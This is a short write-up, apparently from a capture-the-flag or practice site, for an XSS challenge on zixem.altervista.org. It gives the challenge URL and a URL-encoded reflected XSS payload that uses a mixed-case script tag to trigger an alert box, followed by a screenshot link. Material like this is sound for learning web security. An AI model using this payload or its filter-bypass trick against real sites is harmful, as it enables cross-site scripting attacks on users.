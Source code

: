 Chall Url:http://www.zixem.altervista.org/XSS/2.php?name=
Payload: http://www.zixem.altervista.org/XSS/2.php?name=%3CscripT%3Ealert(1337)%3C/scripT%3E

![](https://user-images.githubusercontent.com/25671488/61375420-80384480-a8bc-11e9-8338-92585bfdf4a6.png)
